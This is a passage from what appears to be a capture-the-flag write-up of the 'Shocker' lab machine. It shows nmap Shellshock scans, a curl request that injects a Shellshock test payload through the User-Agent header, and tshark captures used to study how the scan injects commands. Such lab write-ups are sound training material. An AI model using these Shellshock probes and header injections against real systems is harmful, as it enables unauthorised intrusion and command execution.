 ```bash
nmap 10.10.10.56 -p80 --script=http-shellshock --script-args uri=/cgi-bin/admin.cgi

curl -H 'User-Agent: () { :; }; echo "VULNERABLE TO SHELLSHOCK"' http://10.10.10.56/cgi-bin/user.sh 2>/dev/null| grep 'VULNERABLE'

nmap 10.10.10.56 -p80 --script=http-shellshock --script-args uri=/cgi-bin/user.sh

locate .nse | xargs grep categories | grep -oP '".*?"' | sort -u
nmap --script "exploit and vuln and intrusive" --script-args uri=/cgi-bin/user.sh -p80 10.10.10.56
```

<br/>
<img src="{{ site.img_path }}/shocker_writeup/Shocker_14.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/shocker_writeup/Shocker_15.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/shocker_writeup/Shocker_16.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/><br/>

I can also capture the packets sent by `nmap`, when it checks the vulnerability, to analyze how it does it. With `tshark` I capture the packets and save them in a file, but I have permissions problems, so first I am going to create the file and then give it the necessary permissions to be able to write in it. With the help of the configurable parameters of `tshark` I can filter the information I got until I get to what I am interested in and observe how the `nmap` **script** checks the vulnerability and in which **Headers** it injects the malicious command.

```bash
nmap 10.10.10.56 -p80 --script=http-shellshock --script-args uri=/cgi-bin/user.sh

tshark -w Capture.cap -i tun0
# tshark: The file to which the capture would be saved ("Capture.cap") could not be opened: Permission denied.

touch Capture.cap
chmod o=rw Capture.cap

man tshark
```

> **`-w <outfile> | -`**: Write raw packet data to outfile or to the standard output if outfile is '-'.

> **`-i|--interface  <capture interface> | -`**: Set the name of the network interface or pipe to use for live packet capture.

> **`-r|--read-file  <infile>`**: Read packet data from infile, can be any supported capture file format (including gzipped files). It is possibleto use named pipes or stdin (-) here but only with certain (not compressed) capture file formats (in particular:those that can be read without seeking backwards).
